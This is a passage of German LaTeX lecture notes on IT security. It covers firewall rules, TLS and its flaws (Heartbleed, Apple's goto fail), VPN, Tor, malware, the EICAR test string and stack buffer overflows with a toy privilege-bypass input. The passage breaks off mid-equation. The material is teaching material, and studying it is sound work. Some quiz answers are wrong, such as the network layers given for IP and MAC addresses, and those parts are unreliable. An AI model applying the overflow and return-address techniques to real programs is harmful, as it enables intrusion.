					    			\item \texttt{-{}-sport <PORT>} \\ Schränkt den Quellport ein. Bei eingehenden Regeln (INPUT) ist dies der verwendete Port des Clients, bei ausgehenden Regeln (OUTPUT) ist dies ein Port auf dem lokalen Linux. Für Weiterleitungsregeln (FORWARD) ist dies der verwendete Port des Clients.
					    		\end{itemize}
				    	\end{itemize}
			    	\item \texttt{-m <MATCHER>} \\ Aktiviert einen \textit{Matcher}, dem die weiteren folgenden Optionen übergeben werden. Je nach Matcher sind unterschiedliche Optionen verfügbar:
				    	\begin{itemize}
				    		\item \texttt{state} \\ Erlaubt Fallunterscheidungen nach dem Status eines Paketes. Die betroffenen Status werden mit \texttt{-{}-state <STATES>} übergeben, wobei dies eine Komma-separierte Liste sein kann. Die verfügbaren Status sind:
					    		\begin{itemize}
					    			\item \texttt{NEW} \tabto{3cm} Neue Pakete.
					    			\item \texttt{ESTABLISHED} \tabto{3cm} Pakete, die Teil einer bereits aufgebauten Verbindung sind.
					    			\item \texttt{RELATED} \tabto{3cm} Pakete, die sich eine neue Verbindung aufbauen aber auf eine bestehende Verbindung referenzieren (dies wird z.B. bei FTP genutzt).
					    		\end{itemize}
				    	\end{itemize}
			    	\item \texttt{-i <INTERFACE}> \\ Schränkt die Regel auf Pakete ein, die über das angegebene Interface eingehen (nur für INPUT und FORWARD möglich).
			    	\item \texttt{-o <INTERFACE>} \\ Schränkt die Regel auf Pakete ein, die über das angegebene Interface ausgehen (nur für OUTPUT und FORWARD).
			    \end{itemize}
		    % end
		    
		    \paragraph{Beispiel}
				Hierbei handelt es sich um die \texttt{iptables}-Konfiguration eines Servers mit folgendem Netzwerk-Setup:
				\begin{itemize}
					\item \texttt{eth0} \tabto{1cm} Internet.
						\begin{itemize}
							\item Aus dem Internet dürfen nur HTTP/HTTPS-Verbindungen auf den Server aufgebaut werden.
						\end{itemize}
					\item \texttt{eth1} \tabto{1cm} Lokales Netzwerk.
						\begin{itemize}
							\item Aus dem lokalen Netzwerk dürfen alle Verbindungen auf den Server aufgebaut werden.
							\item Aus dem lokalen Netzwerk dürfen nur HTTP/HTTPS-Verbindungen in das Internet aufgebaut werden.
						\end{itemize}
				\end{itemize}
				\begin{figure}[H]
					\centering
					\begin{lstlisting}[language = BASH]
# Setze die Default-Policy fuer alle Chains auf DROP.
iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD DROP

# Erlaube aufgebaute und referenzierende Pakete.
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
# Erlaube saemtlichen Zugriff aus dem lokalen Netzwerk.
iptables -A INPUT -i eth1 -j ACCEPT
# Erlaube eingehende HTTP/HTTPS-Verbindungen.
iptables -A INPUT -i eth0 -p tcp --dport  80 -m state --state NEW -j ACCEPT
iptables -A INPUT -i eth0 -p tcp --dport 443 -m state --state NEW -j ACCEPT

# Erlaube alle ausgehenden Verbindungen.
iptables -A OUTPUT -j ACCEPT

# Erlaube ausschliesslich HTTP/HTTPS-Verbindungen aus dem lokalen Netzwerk.
iptables -A FORWARD -i eth1 -o eth0 -p tcp --dport  80 -j ACCEPT
iptables -A FORWARD -i eth0 -o eth1 -p tcp --sport  80 -j ACCEPT
iptables -A FORWARD -i eth1 -o eth0 -p tcp --dport 443 -j ACCEPT
iptables -A FORWARD -i eth0 -o eth1 -p tcp --sport 443 -j ACCEPT
\end{lstlisting}
					\caption{\texttt{iptables} Beispiel}
				\end{figure}
		    % end
	    % end
    % end

    \section{Intrusion Detection und Prevention Systems}
        \begin{itemize}
        	\item Ein \textit{Intrusion Detection System} (IDS) untersucht den Inhalt auf Netzwerkebene und meldet verdächtige Kommunikation (z.B. Viren).
        	\item Ein \textit{Intrusion Prevention System} (IPS) kann verdächtige Kommunikation unterbinden oder ändern.
        	\item Der Unterschied zu Firewalls ist dabei fließend und lässt sich nur grob abgrenzen:
            	\begin{description}
            		\item[Netzwerk-Firewall] Untersucht nur Header und Metadaten.
            		\item[IDS/IPS] Untersuchen auf den Inhalt von Paketen.
            		\item[Proxy-Firewall] Operieren auf dem Application Layer und stellen tiefgreifende Analyse an.
            	\end{description}
        	\item IDS/IPS werden dabei üblicherweise vor Servern und Intranets verwendet, nach außen eventuell sogar noch vor der Firewall.
        	\item Das bekannteste OpenSource-IPS ist Snort, siehe auch \HREF{https://snort.org}.
        \end{itemize}
    % end

    \section{Sichere Verbindungen}
        Sichere Netzwerkverbindungen können auf unterschiedlichen Schichten im Netzwerk aufgebaut werden:
        \begin{description}
        	\item[Application Layer] z.B. mit SSH (Secure Shell)
        	\item[Transport Layer] z.B. mit SSL/TLS (Secure Socket Layer / Transport Layer Security)
        	\item[Internet Layer] z.B. mit IPSec (IP Security)
        \end{description}

        \subsection{Transport Layer Security (TLS)}
            \begin{itemize}
            	\item Das heute am meisten verwendete Kryptoverfahren
            	\item Baut kryptografisch sichere Verbindungen (Vertraulichkeit und Integrität) auf.
            	\item Auf ältere Varianten wie TLS 1.0 und TLS 1.1 und schwächere Varianten von TLS 1.2 existieren zahlreiche Angriffe, weshalb diese Versionen nicht mehr verwendet werden sollten. SSL ist in allen Versionen unsicher und von zahlreichen Angriffen geprägt, sodass es auch nicht mehr verwendet werden sollte.
            	\item Sichert die Web-Kommunikation z.B. bei HTTP ab.
            \end{itemize}
        
			\paragraph{Heartbeat} % 7.38
				\begin{itemize}
					\item Der SSL/TLS-Heartbeat ist eine Operation zum Testen der SSL/TLS-Verbindung.
					\item Dabei sendet der Client dem Server eine Nachricht \(m\) mit einer Länge von \(n\) Byte und fragt an, die Nachricht mit \(n\) Bytes zurück zu senden.
					\item Liefert der Server diese korrekt zurück, ist die SSL/TLS-Verbindung in Ordnung.
				\end{itemize}
				\begin{figure}[H]
					\centering
					\begin{tikzpicture}[align = center, main/.style = { minimum height = 1.5cm }]
						\ciscoClient{client}{main}{};
						\ciscoServer{server}{main, right = 8 of client}{};
						\node [below = 2 of server] (table) {Anfrage \\ \(n\) Bytes \\ \(m\)};
						
						\path (client.north east) -- coordinate(a) (client.east);
						\path (client.south east) -- coordinate(b) (client.east);
						\path (server.north west) -- coordinate(c) (server.west);
						\path (server.south west) -- coordinate(d) (server.west);
						
						\draw [->] (a) -- node[above]{\circled{1} Bitte sende den Payload von \(n\) Bytes: \(m\)} (c);
						\draw [->] (server) -- node[right]{\circled{2} Speichern} (table);
						\draw [->] (table.south) to[bend left, out = 120, in = 130] node[left]{\circled{3} \(n\) Bytes kopieren} (server.south west);
						\draw [->] (d) -- node[below]{\circled{4} Antwort: \(m\) von \(n\) Bytes Länge} (b);
					\end{tikzpicture}
					\caption{SSL/TLS Heartbeat}
				\end{figure}
			% end

            \subsubsection{TLS 1.2: Ablauf}
                Zu Beginn einer jeden TLS-Verbindung steht der sogenannte \textit{Handshake}, bei dem sich Client und Server auf ein Kryptoverfahren einigen, den Schlüssel austauschen und optional authentifizieren:
                \begin{figure}[H]
                	\centering
                	\begin{tikzpicture}[align = center]
                    	\ciscoClient{client}{minimum height = 2cm}{};
                    	\ciscoServer{server}{minimum height = 2cm, right = 4 of client}{};
                    	\coordinate [below = 0 of client] (clientA);
                    	\coordinate [below = 0 of server] (serverA);
                    	\coordinate [below = 3 of clientA] (clientB);
                    	\coordinate [below = 3 of serverA] (serverB);
                    	\coordinate [below = 3 of clientB] (clientC);
                    	\coordinate [below = 3 of serverB] (serverC);
                    	\coordinate [below = 1.5 of clientC] (clientD);
                    	\coordinate [below = 1.5 of serverC] (serverD);
                    	\node [below = 0.5 of clientD] (clientK) {Schlüssel};
                    	\node [below = 0.5 of serverD] (serverK) {Schlüssel};
                    	\coordinate [below = 0.5 of clientK] (clientL);
                    	\coordinate [below = 0.5 of serverK] (serverL);
                    	
                    	\draw [->] (clientA) -- node[above]{\texttt{ClientHello}} (serverA);
                    	\draw [->] (serverB) -- node[above]{\texttt{ServerHello} \\ \texttt{ServerCertificate*} \\ \texttt{ServerKeyExchange*} \\ \texttt{ClientCertificateRequest*} \\ \texttt{ServerHelloDone}} (clientB);
                    	\draw [->] (clientC) -- node[above]{\texttt{ClientCertificate*} \\ \texttt{ClientKeyExchange} \\ \texttt{CertificateVerify*} \\ \texttt{[ChangeCipherSpec]} \\ \texttt{ClientFinishedMessage}} (serverC);
                    	\draw [->] (serverD) -- node[above]{\texttt{[ChangeCipherSpec]} \\ \texttt{ServerFinishedMessage}} (clientD);
                    	\draw [<->] (clientL) -- node[above]{\texttt{ApplicationData}} (serverL);
                    	\path (clientL) -- node[below]{(Verschlüsselt)} (serverL);
                	\end{tikzpicture}
                	
                	Die mit \texttt{*} markierten Stellen sind optional.
                	\caption{TLS 1.2 Verbindungsaufbau (Handshake)}
                \end{figure}
                \begin{itemize}
                	\item Im \texttt{ServerHello} sendet der Server zusätzliche eine zufällige Zahl (Nonce, Number only used Once) mit, die in die Schlüsselberechnung einfließt. Dadurch ist der TLS-Handshake gegen Replay-Angriffe geschützt.
                	\item Sowohl für den Server als auch für den Client ist die Authentisierung optional, vom Server wird diese ab üblicherweise durchgeführt. Hierdurch werden MitM-Angriffe verhindert, da sich ein Angreifer nicht als Server ausgeben kann.
                	\item Der endgültige Schlüssel kann auf zwei Arten bestimmt werden:
	                	\begin{enumerate}
	                		\item \textbf{Diffie-Hellman:} \tabto{3cm} Der Schlüssel wird am Ende des Handshakes ausgetauscht.
	                		\item \textbf{RSA:} \tabto{3cm} Der Schlüssel wird mittels RSA-Verschlüsselung übertragen.
	                	\end{enumerate}
                \end{itemize}
            % end
            
            \subsubsection{Angriffe auf fehlerhafte SSL/TLS-Implementierungen}
                \paragraph{Heartbleed}
	                \begin{itemize}
	                	\item Wurde ca. 2014 Entdeckt und wurde auch in der Praxis verwendet
	                	\item Basierend auf dem SSL-Heartbeat
	                	\item \textbf{Fehler:} Die SSL-Implementierungen haben nicht geprüft, ob die gesendete Nachricht wirklich \(n\) Bytes lang ist.
	                	\item Stattdessen wurden alle \(n\) Bytes ab Beginn der gespeicherten Nachricht gesendet.
	                	\item Dadurch war es möglich, hinter der Nachricht liegende Daten abzufragen (z.B. Passwörter, geheime Schlüssel, \dots).
	                \end{itemize}
                % end
                
                \paragraph{Apples \texttt{goto fail;}}
	                \begin{itemize}
	                	\item Durch einen Fehler in der SSL/TLS-Implementierung in Mac OS X wurden Zertifikate nicht korrekt geprüft. Der Angriff war theoretisch möglich, wurde in der Praxis allerdings nie bekanntermaßen genutzt.
	                	\item \textbf{Fehler:} In der Funktion zur Verifizierung eines SSL/TLS-Zertifikates (siehe Abbildung) wurde ein zweites \texttt{goto fail;} eingefügt, welches immer ausgeführt wird, auch wenn es keinen Fehler gab. \\ (Bei einem \texttt{if} ohne Codeblock bezieht sich die Verzweigung immer nur auf die nächste Zeile.)
	                	\item Dadurch wurden die Signaturen nie überprüft und \texttt{err} hat immer einen Erfolg signalisiert.
	                	\item Dadurch konnte sich ein potentieller Angreifer mit einer beliebigen Unterschrift gegenüber dem Apple-Client authentisieren und im Namen anderer handeln und die gesamte Kommunikation entschlüsseln. Somit hätte ein Angreifer z.B. sämtliche Bankdaten auslesen können.
	                \end{itemize}
	                \begin{figure}[H]
	                	\centering
	                	\begin{lstlisting}[language = C]
static
OSStatusSSLVerifySignedServerKeyExchange(..)
{
	OSStatus err;
	...
	if ((err = ReadyHash(&SSLHashSHA1, &hashCtx)) != 0)
		goto fail;
	if ((err = SSLHashSHA1.update(&hashCtx, &clientRandom)) != 0)
		goto fail;
	if ((err = SSLHashSHA1.update(&hashCtx, &serverRandom)) != 0)
		goto fail;
	if ((err = SSLHashSHA1.update(&hashCtx, &signedParams)) != 0)
		goto fail;
		goto fail;
	if ((err = SSHHashSHA1.final(&hashCtx, &hashOut)) != 0)
		goto fail;
	err = sslRawVerify(..);
	...
fail:
	SSLFreeBuffer(&signedHashes);
	SSLFreeBuffer(&hashCtx);
	return err;
}
\end{lstlisting}
	                	\caption{Apples \texttt{goto fail;}}
	                \end{figure}
                % end
                
                \paragraph{Missverständliche SSL-APIs}
	                \begin{itemize}
	                	\item Falsche Nutzung von SSL-APIs wie OpenSSL oder GnuTLS erlauben es, Zertifikatsprüfungen zu umgehen.
	                	\item Hiervon betroffen waren bspw. Amazon EC2, PayPal, Chase, \dots
	                \end{itemize}
                
	                \paragraph{cURL-SSL-Beispiel}
		                Bei der cURL-Bibliothek kann die Zertifikatsprüfung mit Parameter gesteuert werden:
		                \begin{description}[leftmargin = 5cm]
		                	\item[\texttt{CURLOPT\_SSL\_VERIFYPEER}] Stellt ein, ob die Zertifikatskette geprüft werden soll. \\ Default: \texttt{true}
		                	\item[\texttt{CURLOPT\_SSL\_VERIFYHOST}] Stellt ein, wie der Hostname im Zertifikat geprüft werden soll. \\ \null\qquad\(\texttt{0} \rightarrow \) keine Prüfung, \\ \null\qquad\(\texttt{1} \rightarrow \) irgendein Name, \\ \null\qquad\(\texttt{2} \rightarrow \) exakte Prüfung; \\ Default: \texttt{2}
		                \end{description}
	                % end
                % end
            % end
        % end
    % end

    \section{Virtual Private Network (VPN)}
        \subsection{Transportieren vs. Tunneln}
            \begin{itemize}
            	\item Im \textit{Transport-Modus} werden die Daten verschlüsselt direkt hinter den unverschlüsselten IP-Header gesetzt.
            	\item Im \textit{Tunnel-Modus} werden die Daten inklusive IP-Header verschlüsselt und hinter einen neuen, unverschlüsselten, IP-Header gesetzt. Dieser neue Header muss vom Sender hinzugefügt und vom Empfänger entfernt werden.
                	\begin{itemize}
                		\item Durch dieses Tunneln ist es möglich, Daten verschlüsselt über ein öffentliche Netzwerk zu senden, ohne dabei Daten preis zu geben.
                	\end{itemize}
            \end{itemize}
        % end

        \subsection{VPN}
            \begin{itemize}
            	\item Bei einem \textit{Virtual Private Network} (VPN) wird eine sichere Verbindung zu einem Server aufgebaut.
            	\item Über diese sichere Verbindung ist der Client nun in einem virtuellen Netzwerk und \enquote{sieht} die anderen Clients in dem Netzwerk als Nachbarn.
            	\item Dadurch kann der Client sich nun sicher zu anderen Clients verbinden, die bspw. im internen Netzwerk vorhanden sind.
            	\item VPN-Software wie OpenVPN benötigt hierzu einen zentralen Server, wobei neuere Ansätze wie Tinc ein Peer-to-Peer-VPN aufbauen.
            	\item Im Vergleich zu sicheren Verbindungen auf Applikationsebene wird bei einem VPN nicht Ende-zu-Ende verschlüsselt, dafür ist jedoch die gesamte Kommunikation auch über unsichere Protokolle von außen nicht sichtbar, da diese vom VPN verschlüsselt wird. Außerdem bleibt der Client bei sicheren Verbindungen auf Applikationsebene \enquote{außerhalb des Netzes}.
            \end{itemize}
        % end
    % end

    \section{Anonymität} % 5.52, 5.53
        \begin{itemize}
        	\item Auch aus sicheren Verbindungen lassen sich Metadaten wie die IP-Adressen auslesen, da die Pakete ankommen müssen.
        \end{itemize}

        \subsection{Onion-Routing (TOR)}
            \begin{itemize}
            	\item Bei \textit{TOR} (The Onion Router) berechnet der Client die gesamte Route vorweg und legt diese verschlüsselt in einem Paket ab.
            	\item Dann wird das Paket zwischen TOR-Knoten versendet, die das Paket immer weiter auspacken und das Paket an den nächsten Knoten versenden. Dabei ist jeweils nur die IP-Adresse des nächsten Knotens in Klartext vorhanden, der Rest der Route ist mit den öffentlichen Schlüsseln der Knoten schichtenweise im Paket abgelegt.
            	\item Über sogenannte \textit{TOR-Exit-Knoten} wird das Paket dann zu dem Endziel gesendet.
            	\item Dieser antwortet auf dem gleichen Weg und kennt nur die IP-Adresse des Exit-Knotens.
            	\item Der Name \textit{Onion Routing} kommt daher, dass das Paket wie eine Zwiebel von jedem Knoten weiter ausgepackt wird und aus vielen Schichten besteht.
            	\item \textbf{Beispiel}
                	\begin{enumerate}
                		\item Alice möchte eine Nachricht \(m\) an Bob senden, hierbei allerdings anonym bleiben. Dazu sendet Alice das Paket über drei Server \( s^1, s^2, s^3 \), die jeweils den geheimen Schlüssel \( s^i_s \) und den öffentlichen Schlüssel \( s^i_p \) haben.
                		\item Dazu wird das Paket \( c_0 \) wie folgt konstruiert, wobei der Empfänger an den Anfang des Pakets gehängt wird:
	                		\begin{equation*}
		                		c_0 = s^1 \,\vert\, \Enc(s^1_p,\, s^2 \,\vert\, \Enc(s^2_p,\, s^3 \,\vert\, \Enc(s^3_p,\, \text{Bob} \,\vert\, m)))
	                		\end{equation*}
	                	\item Die Server \( s^1, s^2, s^3 \) packen das Paket nun nach und nach aus und senden es an den nächsten Knoten:
		                	\begin{align*}
			                	c_1 &=\, \Dec(s^1_s,\, s^2 \,\vert\, \Enc(s^2_p,\, s^3 \,\vert\, \Enc(s^3_p,\, \text{Bob} \,\vert\, m))) = s^2 \,\vert\, \Enc(s^2_p,\, s^3 \,\vert\, \Enc(s^3_p,\, \text{Bob} \,\vert\, m)) \\
			                	c_2 &=\, \Dec(s^2_s,\, s^3 \,\vert\, \Enc(s^3_p,\, \text{Bob} \,\vert\, m)) = s^3 \,\vert\, \Enc(s^3_p,\, \text{Bob} \,\vert\, m) \\
			                	c_3 &=\, \Dec(s^3_s,\, \text{Bob} \,\vert\, m) = \text{Bob} \,\vert\, m \\
		                	\end{align*}
		                \item Der letzte Knoten \(s^3\) sendet das Paket \(c_3\) nun weiter an Bob, welcher an \(s^3\) antwortet.
		                \item Diese Antwort nimmt nun den gleichen Weg zurück.
                	\end{enumerate}
            \end{itemize}
        % end

        \subsection{Anonymität durch TOR}
            \begin{itemize}
            	\item TOR erschwert es zwar, Datenströme zuzuordnen, allerdings
            	\item bietet TOR keine perfekte Anonymität.
            	\item Die Ein- und Ausgabeknoten sind zuordenbar, sofern der Angreifer eine große Menge an Ausgangsknoten besitzt.
            \end{itemize}
        % end
    % end

    \section{Fragen}
		\paragraph{Erklären Sie den Unterschied zwischen einer IP-Adresse und einer MAC-Adresse.}
		Eine IP-Adresse ist virtuelle und im TCP/IP-Schichtenmodell auf Ebene 2. Eine MAC-Adresse ist die \enquote{Hardwareadresse} einer Netzwerkkarte und im Schichtenmodell auf Ebene 1.
		
		\paragraph{Was ist ein ARP-Spoofing-Angriff?}
		Bei einem ARP-Spoofing-Angriff fälscht der Angreifer ARP-Antworten, um so die Auflösung der IP-Adresse zur MAC-Adresse auf seinen Rechner umzubiegen. Wird dies z.B. für den Router gemacht, kann so eine Man-in-the-Middle-Attacke initiiert werden.
		
		\paragraph{Warum kann man nicht einfach die Nachricht eines DHCP-Servers signieren, um einen Angriff zu verhindern?}
		Der Schlüssel des DHCP-Servers müsste bekannt gemacht werden, was nur über das lokale Netzwerk geht. Ist das Netzwerk infiziert, so könnte der Angreifer auch dieses Zertifikat austauschen.
		
		\paragraph{Was ist der Unterschied zwischen einem DoS- und einem DDoS-Angriff?}
		Bei einem DoS-Angriff sind nur \enquote{ehrliche} Rechner involviert, bei einem DDoS-Angriff auch Botnetze.
		
		\paragraph{Was ist der Unterschied zwischen einem SYN-Flood-Angriff und einem SYN-ACK-Flood-Angriff?}
		Bei einem \texttt{SYN}-Flood-Angriff antwortet der Angreifer einfach nicht auf \texttt{SYN-ACK}-Antworten, bei einem \texttt{SYN-ACK}-Angriff wird das Netzwerk als Multiplikator verwendet und gefälschte Pakete gesendet und die Clients antworten alle mit einem \texttt{ACK} an das Angriffsziel.
		
		\paragraph{Nennen Sie einen Unterschied zwischen einer Netzwerk-Firewall und einem IDS.}
		Eine Netzwerk-Firewall kann nur die Metadaten analysieren, ein IDS analysiert auch die Inhalte der Pakete.
		
		\paragraph{Welche beiden Methoden zur Ableitung des gemeinsamen Schlüssels gibt es in TLS?}
		\begin{enumerate}
			\item Es wird Diffie-Hellman für den Austausch eines geheimen Schlüssels verwendet.
			\item Es wird RSA verwendet und der Client nutzt das Zertifikat des Servers, um die Nachricht zu verschlüsseln.
		\end{enumerate}
		
		\paragraph{Können Sie sich den Sinn einer TLS-Verbindung ohne Client und ohne Server-Authentisierung vorstellen?}
		Dies kann sinnvoll sein, wenn es nur wichtig ist, dass die Verbindung verschlüsselt ist und die Authentisierung auf andere weise sichergestellt wird (oder auch nicht).
		
		\paragraph{Erklären Sie den Unterschied zwischen Transportieren und Tunneln bei sicheren Verbindungen.}
		Beim Transportieren werden die Header nicht mit verschlüsselt, da die Pakete zugestellt werden müssen. Beim Tunneln werden auch die Header verschlüsselt und an einen neuen Header gehängt, der nicht verschlüsselt ist, aber z.B. aus einem völlig anderen Protokoll stammen kann (bspw. Tunneln von HTTP-Verbindungen über SSH).
		
		\paragraph{Wie funktioniert Onion-Verschlüsselung bei TOR?}
		Das initiale Paket wird mit mehreren Schichten verpackt und enthält schon die gesamte Route. Jeder Knoten kann dann das äußere Paket entschlüsseln und den nächsten Hop bestimmen.
		
		\paragraph{Warum muss bei TOR der Sender die Route vorab wählen und überlässt die Wahl nicht den Knoten?}
		Da nur das letzte Paket das Ziel kennt und die vorhergehenden Knoten dieses nicht entschlüsseln können, muss die Route vorher bekannt sein, um sie in den Paketen ablegen zu können. Wäre sie nicht vorher bekannt, müsste der erste Knoten das Ziel kennen, um den nächsten Hop zu bestimmen (wie bei \enquote{normaler} Kommunikation über IP).
    % end
% end

\chapter{Betriebssystem-Sicherheit}
    \section{Malware}
        Es existieren die folgenden übergeordneten Typen von \textit{Malicious Software} (Malware):
        \begin{description}
        	\item[Wurm] Verbreitet sich selber über das Netzwerk, beeinträchtigt nur die Leistung
        	\item[Virus] Böswillige Software, verbreitet sich selber; hängt sich an andere Systeme an; verändert das Aussehen (Polymorphie)
        	\item[Trojaner] Software mit zusätzlicher, böswilliger, Funktion; Repliziert sich nicht selbst
        \end{description}
        Oft wird auch von einem Trojaner-Virus gesprochen, wenn ein nicht-selbst-replizierender Virus zusätzliche Funktionen wie Passwort-Phishing installiert.
        
        Außerdem existieren noch einige Spezialfälle, die die oben genannten Typen teilweise kombinieren:
        \begin{description}
        	\item[Ransomware] Trojaner-Virus, der das Dateisystem verschlüsselt und nur gegen Geldzahlungen wieder freigibt.
        	\item[Scareware] Trojaner, der sich als Virenscanner verkleidet und vermeintlich gefundene Viren nur gegen Bezahlung löscht.
        	\item[Zero-Day-Exploits] Neue Schwachstellen, bei denen dem Entwickler keine Zeit (zero days) bleibt, diese zu beheben.
        \end{description}

        \subsection{Verbreitung}
            Malware kann auf viele Wege verteilt werden:
            \begin{itemize}
            	\item Klassisch: als E-Mail-Anhang, während einer Programm-Installation, über Netzwerkprotokolle, \dots \\ \textbf{Gegenmaßnahmen:}
            	    \begin{itemize}
            	    	\item Antivirenprogramme
            	    	\item Nur Dinge aus vertrauenswürdigen Quellen herunterladen oder installieren
            	    	\item Das System aktuell halten
            	    \end{itemize}
                \item Drive-by-Download: beim Besuch einer Website (über Java, JavaScript, Flash, \dots) \\ \textbf{Gegenmaßnahmen:}
                    \begin{itemize}
                    	\item Antivirenprogramme
                    	\item NoScript
                    	\item Sandboxing
                    \end{itemize}
                \item Physich: durch infizierte Tokens, USB-Sticks, \dots \\ \textbf{Gegenmaßnahmen:}
                    \begin{itemize}
                    	\item Antivirenprogramme
                    	\item Nur Hardware aus vertrauenswürdigen Quellen nutzen
                    \end{itemize}
            \end{itemize}
        % end

        \subsection{Antivirenprogramme}
            Die Methoden der Antivirenprogramme AV lassen sich in reaktive und proaktive Virenprogramme einteilen:
            \begin{itemize}
                \item Reaktiv
	                \begin{itemize}
	                	\item Systemscan: Durchsuchen der Festplatte nach verdächtigen Dateien.
	                	\item Real-Time Detection (On-Access Scanning): Überprüfung beim Speichern, Öffnen, Ausführen, \dots
	                \end{itemize}
                \item Proaktiv
	                \begin{itemize}
	                	\item Activity Monitoring: Prüfung auf virentypisches Verhalten z.B. Replikation im Autostart, DNS-Anfragen, \dots
	                \end{itemize}
            \end{itemize}

            \subsubsection{Reaktives Scannen}
                \begin{itemize}
                	\item Der AV-Hersteller verteilt Signaturen mit bekannten Viren an den Scanner.
                	\item Für jede Datei wird die Signatur geprüft und mit der Datenbank abgeglichen.
                	\item Ist der Virus verschlüsselt oder Mutiert, wird dieser erst einmal in einer Sandbox ausgeführt und geprüft, wie er sich verhält.
                	\item Anschließend schlägt das Virenschutzprogramm Alarm und der Nutzer kann die Datei löschen.
                \end{itemize}
            % end

            \subsubsection{EICAR-Test}
                Der \textit{European Institute for Computer Anti-Virus Research e.V.} (EICAR) Test ist ein Test um zu prüfen, ob ein Virenscanner korrekt arbeitet.
                
                Es handelt sich dabei um eine einfach Testdatei mit folgendem Inhalt:
                \begin{figure}[H]
                    \centering
                    \texttt{X5O!P\%@AP[4\textbackslash{}PZX54(P\^{})7CC)7\}\$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!\$H+H*}
                	\caption{EICAR-Testdatei}
                \end{figure}
            % end

            \subsubsection{Effektivität}
                \begin{itemize}
                	\item Die Erkennungsrate von Virenscanner variiert von \(40\%\) mit \(99.9\%\).
                	\item Allerdings können nie alle Viren erkannt werden.
                	\item Z.B. kann es passieren, dass ein neuer Virus noch nicht in den Datenbanken vorhanden ist.
                	\item[\(\implies\)] Ein Virenscanner liefer keinen vollumfänglichen Schutz, sorgsamer Umgang mit Programmen, USB-Sticks, etc. ist weiterhin notwendig!
                \end{itemize}
            % end
        % end
    % end

    \section{(Stack) Buffer Overflow}
        \paragraph{Prinzip}
            Bei dem einlesen von Werten in ein Array wird nicht geprüft, wie lang die Eingaben sind und es wird über den Rand des Arrays hinaus geschrieben. Dadurch ist es möglich, danach folgende Variablen zu überschreiben.
        % end
        
        \paragraph{Beispiel}
            \begin{figure}[H]
            	\centering
            	\lstinputlisting[language = C]{\lstbasepath/code/buffer-overflow.c}
            	\caption{Buffer Overflow}
            \end{figure}
            \begin{itemize}
            	\item Das in Zeile 5 definierte Array kann nur 15 Elemente halten.
            	\item Mit dem Aufruf von \texttt{gets}in Teile 10 wird eine beliebige Nutzereingabe eingelesen, die auch mehr als 15 Zeichen lang sein kann.
            	\item Dadurch kann die Variable \texttt{pass} überschrieben werden und einen Wert ungleich \texttt{0} bekommen, wodurch das \texttt{if} in Zeile 19 die Rechte vergibt, auch wenn das Passwort falsch war.
            	\item Beispielhafter Programmverlauf (Konsolenausgabe):
	            	\begin{figure}[H]
	            		\centering
	            		\begin{lstlisting}[numbers = none]
Enter password:
@@?0123456789ABCDEF@@@

Wrong password!

Granting privileges to user.
\end{lstlisting}
	            		\caption{Buffer Overflow: Demonstration}
	            	\end{figure}
            \end{itemize}
        % end

        \subsection{Smashing the Stack}
            Bei der Ausführung eines Programms werden die Daten bei einem Funktionsaufruf auf dem Stack abgelegt, wobei der Stack nach oben wächst. Zusätzlich werden im aktuellen sogenannten \textit{Stackframe} der alte Base Pointer (BP) und der alte Instruction Pointer (IP) abgelegt, wobei nach Fertigstellung der Ausführung zu dem Wert des IP gesprungen wird (\textit{Rücksprungadresse}).
            
            Der Stack hat dabei bei einem Methodenaufruf folgendes Format:
            \begin{figure}[H]
            	\centering
            	\begin{bytefield}{16}
            		\wordbox{1}{Lokale Variablen\dots} \\
            		\wordbox{1}{alter BP} \\
            		\wordbox{1}{alter IP} \\
            		\wordbox{1}{Parameter\dots} \\
            		\wordbox{1}{Vorheriger Stack Frame} \\
            		\wordbox[ltr]{1}{} \\
            		\skippedwords \\
            		\wordbox[lrb]{1}{}
            	\end{bytefield}
            	\caption{Stack Frame Format}
            \end{figure}
            
            Bei einem Angriff wird versucht, bestimmte Felder im Stack so zum Überlauf zu bringen, dass die Rücksprungadresse überschrieben wird und das Programm während der Ausführung an eine andere, nicht vorgesehene, Stelle springt. Damit kann z.B. die Autorisierung übersprungen werden.
            
            Auch kann vorher eigener Code in den Speicher injiziert werden und dann an diese Stelle gesprungen werden, womit sämtlicher Schadcode ausgeführt werden kann. Dies ist gerade bei Prozessen kritisch, die mit root-Rechten laufen. Um die Speicherstelle nicht exakt treffen zu müssen kann man dem Schadcode einige NoOps (No Operation) voranstellen, sodass nur in etwa der Bereich getroffen werden muss. Dies wird \textit{NOP-Slide/Sled} genannt.

			\paragraph{Beispiel: Stack Frame}
				Für folgenden Code:
				\begin{figure}[H]
					\centering
					\begin{lstlisting}[language = C]
void foo(char* input) {
	char buf[10];
	int x;

	...
}

int main(int argc, char* argv[]) {
	...

	foo(argv[1];)

	...
}
\end{lstlisting}
					\caption{Stack Frame: Beispiel (Code)}
				\end{figure}
				sieht der Stack Frame bei einem Aufruf der Methode \lstinline[language = C]|foo| von der Methode \lstinline[language = C]|main| wie folgt aus:
				\begin{figure}[H]
					\centering
					\begin{bytefield}{16}
						\wordbox{1}{\texttt{x} (4 Byte)} \\
						\wordbox{1}{\texttt{buf[10]} (10 Byte)} \\
						\wordbox{1}{alter BP (4 Byte)} \\
						\wordbox{1}{alter IP (4 Byte)} \\
						\wordbox{1}{input} \\
						\wordbox{1}{Stack Frame von \lstinline[language = C]|main|} \\
						\wordbox[ltr]{1}{} \\
						\skippedwords \\
						\wordbox[lrb]{1}{}
					\end{bytefield}
					\caption{Stack Frame: Beispiel}
				\end{figure}
			% end

            \paragraph{Beispiel: Smashing the Stack}
                Wie bereits beschrieben wird nun durch einen gezielten Buffer Overflow versucht, die Rücksprungadresse so zu überschreiben, dass das Programm nach Ablauf der Methode zu einer anderen Adresse springt.
                
                \begin{figure}[H]
                	\centering
                	\lstinputlisting[language = C]{\lstbasepath/code/smashing-the-stack.c}
                	\caption{Smashing the Stack: Beispiel (Code)}
                \end{figure}
                In Zeile 8 wird hier einfach der Eingabestring \texttt{input} eingelesen, ohne die Länge zu prüfen. Dadurch können wir das Programm durch eine geschickte Eingabe dazu verleiten, am Ende der Methode \texttt{foo} die Methode \texttt{bar} auszuführen, also zu Adresse \texttt{0x0100401103} zu springen. Hierzu müssen wir über die Arraygrenzen hinaus schreiben und anschließend die Adresse im Big-Endian-Format anfügen:
                \begin{equation*}
